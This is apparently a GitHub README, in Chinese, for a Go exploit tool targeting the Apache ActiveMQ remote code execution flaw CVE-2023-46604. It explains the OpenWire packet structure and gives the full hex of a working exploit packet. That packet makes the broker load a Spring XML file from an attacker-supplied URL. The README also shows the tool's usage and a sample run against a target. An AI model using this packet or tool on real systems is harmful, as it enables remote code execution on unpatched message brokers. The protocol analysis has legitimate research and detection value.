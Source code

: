 # ActiveMQ-RCE

[[English Version]](https://github.com/X1r0z/ActiveMQ-RCE/blob/main/README-en.md)

ActiveMQ RCE (CVE-2023-46604) 漏洞利用工具, 基于 Go 语言

一些详细的分析报告

[https://exp10it.cn/2023/10/apache-activemq-版本-5.18.3-rce-分析](https://exp10it.cn/2023/10/apache-activemq-%E7%89%88%E6%9C%AC-5.18.3-rce-%E5%88%86%E6%9E%90/)

[https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis](https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis)

## OpenWire 协议分析

参考官方的文档以及 Wireshark 对 OpenWire 协议进行简单分析

[https://activemq.apache.org/openwire-version-2-specification](https://activemq.apache.org/openwire-version-2-specification)

一个简单的 ActiveMQ RCE 数据包如下

```
000000701f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001d687474703a2f2f3132372e302e302e313a383030302f706f632e786d6c
```

我们可以把它分成两个部分: header 和 body

header

```
+----------------------------------------------------------------------------------+
| Packet Length | Command | Command Id | Command response required | CorrelationId |
|---------------|---------|------------|---------------------------|---------------|
|   00000070    |   1f    |  00000000  |          00               |   00000000    |
+----------------------------------------------------------------------------------+
```

Packet Length: body 部分的长度 / 2

Command: Command 类型标识符 (Type Identifier), `1f` 对应 ExceptionResponse

Command Id: 顾名思义, 这里以全 0 填充

Command response required: 表示是否需要响应

CorrelationId: 顾名思义, 这里以全 0 填充

body

```
+--------------------------------------------------------------------------------------+
| not-null | not-null | classname-size | classname | not-null | message-size | message |
|----------|----------|----------------|-----------|----------|--------------|---------|
|    01    |    01    |      0042      |   .....   |    01    |     001d     |  .....  |
+--------------------------------------------------------------------------------------+
```

开头的 not-null 为 `01`, 代表整个 body 部分不为空, 后面每三个部分代表一个 String 类型

not-null 代表 classname 这个字符串不为空, 然后跟上其长度以及 hex 内容 , message 以此类推

可以参考官方文档给出的示意图

String Type Encoding

```
             [=If not-null is 1===========]
+----------+ [ +-------+----------------+ ]
| not-null | [ | size  | encoded-string | ]
+----------+ [ +-------+----------------+ ]
| byte     | [ | short | size octects   | ]
+----------+ [ +-------+----------------+ ]
             [============================]
```

Throwable Type Encoding

```
             [=If not-null is 1===========================================================================]
             [                               [=If StackTraceEnabled option is enabled.==================] ]
             [                               [             [=Repeated size times======================] ] ]
+----------+ [ +----------------+---------+  [ +-------+ [ +--------+--------+--------+-------------+ ] ] ]
| not-null | [ | exception-name | message |  [ | size  | [ | class  | method | file   | line-number | ] ] ]
+----------+ [ +----------------+---------+  [ +-------+ [ +--------+--------+--------+-------------+ ] ] ]
| byte     | [ | string         | string  |  [ | short | [ | string | string | string | int         | ] ] ]
+----------+ [ +----------------+---------+  [ +-------+ [ +--------+--------+--------+-------------+ ] ] ]
             [                               [           [============================================] ] ]
             [                               [==========================================================] ]
             [============================================================================================]
```

## Usage

usage

```bash
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

Usage of ./ActiveMQ-RCE:
  -i string
    	ActiveMQ Server IP or Host
  -p string
    	ActiveMQ Server Port (default "61616")
  -u string
    	Spring XML Url
```

exploit

```bash
$ ./ActiveMQ-RCE -i 127.0.0.1 -u http://127.0.0.1:8000/poc.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 127.0.0.1:61616
[*] XML URL: http://127.0.0.1:8000/poc.xml

[*] Sending packet: 000000701f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001d687474703a2f2f3132372e302e302e313a383030302f706f632e786d6c
```

如果只是单纯的检测是否存在漏洞, 可以将 spring xml url 改成 dnslog 地址
